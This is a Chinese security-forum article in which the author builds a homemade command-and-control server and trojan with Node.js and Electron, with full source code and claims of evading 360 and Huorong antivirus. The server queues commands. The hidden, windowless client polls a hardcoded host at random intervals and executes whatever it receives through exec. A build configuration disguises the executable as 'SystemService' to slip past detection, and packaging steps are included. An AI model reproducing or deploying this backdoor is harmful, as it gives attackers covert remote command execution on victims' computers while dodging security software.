





# 我用NodeJS+electron自研了个C2和木马并绕过了360+火绒内存扫描(附源码)-先知社区

> **来源**: https://xz.aliyun.com/news/17480  
> **文章ID**: 17480

---

# 前言

昨天咖啡喝多了，晚上睡不着觉，加上最近一直在写electron，就躺着东想西想，想到NodeJs可以写后端、electron又可以打包成exe，还可以通过主进程命令执行，那么不就可以自研一个C2了吗？早上一醒，说干就干。

思路很简单。nodejs起的后端写两个接口，第一个接口是控制端下发命令的、第二个接口是被控端接收命令的（其实还可以有第三个接口，正常情况也需要有第三个接口，就是发送命令执行的结果给控制端）。

然后用electron写个主进程，这个主进程需要有一定隐蔽性，所以不能打开窗口，也就是不能有GUi，然后需要不断的轮询，去查询控制端有没有下发命令（这里用随机时间发起轮询），如果下发了命令就用exec进行命令执行就好了，然后可以通过第三个接口将结果返回给控制端，这里我就省略了，代码也很简单。最终的效果也是绕过了火绒的内存扫描，绕过了360查杀（附视频）。

# Server

**创建node后端环境**

```
npm init
```

**安装express 用于简化路由的创建和管理**

```
npm install express
```

**服务端代码如下**

```
// ============== 服务端代码 (server.js) ==============
const express = require('express')
const app = express()
app.use(express.json())

let pendingCommand = null

app.post('/sendCommand', (req, res) => {
  const { command } = req.body
  pendingCommand = command
  console.log(`[+] 命令已存储: ${command}`)
  res.status(200).json({ status: 'success' })
})

app.get('/execCommand', (req, res) => {
  if (pendingCommand) {
    const command = pendingCommand
    pendingCommand = null  
    res.status(200).json({ command })
  } else {
    res.status(200).json({ command: null })
  }
})

app.listen(3000, () => {
  console.log('C2服务器运行在端口 3000')
})

```

**运行方式**​

```
# 启动服务端
node server.js
```

**发送命令测试**

```
curl -X POST http://localhost:3000/sendCommand -H "Content-Type: application/json" -d "{"command":\
"whoami"}"
```



# Client

**首先创建client项目**

```
vue create client
```

**然后下载build**

```
cd .\client\
vue add electron-builder
```

**开始写代码**

以下是使用Electron+Vue实现无窗口被控端的解决方案，基于之前的核心逻辑进行扩展：

```
// ============== 主进程代码 (background.js) ==============
const { app } = require('electron')
const axios = require('axios').default
const { exec } = require('child_process')
const HOST = 'http://192.168.0.106:3000'

function createWindow() {
  return null 
}

async function pollCommands() {
  try {
    const response = await axios.get(`${HOST}/execCommand`)
    if (response.data.command) {
      console.log(`[*] 接收到命令: ${response.data.command}`)
      
      exec(response.data.command, (err, stdout, stderr) => {
        if (err) console.error(`[!] 执行错误: ${err}`)
        if (stdout) console.log(`[输出] ${stdout}`)
        if (stderr) console.error(`[错误] ${stderr}`)
      })
      
      setTimeout(pollCommands, 100)
    } else {
      const retryDelay = Math.floor(Math.random() * 5000) + 1000
      setTimeout(pollCommands, retryDelay)
    }
  } catch (error) {
    setTimeout(pollCommands, 5000)
  }
}

app.whenReady().then(() => {
  createWindow()
  
  pollCommands()
})

app.on('window-all-closed', () => {}) 
```

配置（vue.config.js） 这里可以自定义icon等静态资源 可用来bypass qvm

```
module.exports = {
  pluginOptions: {
    electronBuilder: {
      nodeIntegration: true,
      mainProcessFile: 'src/background.js',
      builderOptions: {
        productName: "SystemService",
        appId: "com.example.systemservice",
        win: {
          target: "portable",
          icon: "build/icon.ico"
        },
        extraResources: [
          "build/icon.ico"
        ],
        extraMetadata: {
          buildNumber: "1.0.0"
        }
      }
    }
  }
}
```

**最终效果**



**打包成exe**

但是在真实环境不可能这样运行的 因为可能目标不一定有node环境所以我们需要打包

```
npm run electron:build
```

# 效果展示

**（这里上传不了视频，过几天公众号有视频）**

**真实效果—火绒内存扫描测试**





**真实效果—360查杀**


